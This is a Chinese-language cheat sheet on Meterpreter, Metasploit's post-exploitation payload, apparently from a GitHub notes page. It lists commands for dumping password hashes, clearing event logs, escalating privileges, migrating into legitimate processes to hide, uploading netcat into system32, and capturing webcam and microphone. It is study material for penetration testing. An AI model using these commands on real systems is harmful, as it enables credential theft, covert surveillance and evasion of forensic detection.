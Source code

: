 
# Meterpreter

* 介绍
> * 高级、动态、可扩展的Payload
>   - 基于meterpreter上下文利用更多漏洞发起攻击
>   - 后渗透测试阶段一站式操作界面
> * 完全基于内存的DLL注入式 payload（不写硬盘）
>   - 注入合法进程并建立stager
>   - 基于Stager上传和预加载DLL进行扩展模块的注入（客户端API）
>   - 基于stager建立的socket连接建立加密的TLS/1.0通信隧道
>   - 利用TLS隧道进一步加载后续扩展模块（避免网络取证）
> * 服务端使用C语言编写
> * 客户端提供基于ruby的全特性API（支持任何语言）


* 基本命令

1. help、background
2. run、bgrun　　　　　　　　
    - 前台为run，后台运行为bgrun
3. cd 、ls 、cat 、pwd 、dir 、mkdir 、mv 、rm 、rmdir 、edit
4. lpwd 、lcd　　　　　　　　　　
    - 操作本机卡里的切换目录和显示当前目录
5. clearev 、download 、upload　　　　　　
    - clearav代表清除日志记录、download（下载）、upload（上传）
    - upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32
6. execute -f cmd.exe -i –H　　　　　　
    - 执行某个程序或命令
7. getuid 、getsystem 、getprivs 、getproxy 、getpid　　　　　　
    - 字面意思
8. hashdump 、run post/windows/gather/hashdump　　　　　　
    - 将显示账号经过hash之后对应的密码
9. sysinfo 、ps 、kill 、migrate 、reboot 、shutdown 、shell　　　　
    - 通过getpid获取当前进程ID，然后ps查看所有的进程ID，再migrate  PID，这样有利于隐蔽（将shell注入到系统的正常进程中）
10. show_mount 、search -f autoexec.bat　　　　　　
    - 查看挂载已经搜索文件
11. arp 、netstat 、ipconfig 、ifconfig 、route　　　　　　　　　　
12. idletime 、resource　　　　　　　　　　　　　　
13. record_mic 、webcam_list 、webcam_snap -i 1 -v false　　　　
    - 麦克风、摄像头、截图，每隔一秒截图一张


* python扩展

> 无需运行环境，在客户端运行原生 python 代码
``` 
// meterpreter
// 重点，python扩展，通过其可以编写自己的python程序，然后通过文件导入进来
load python
Help
python_execute "import os; cd = os.getcwd()" -r cd
python_import -f find.py

```
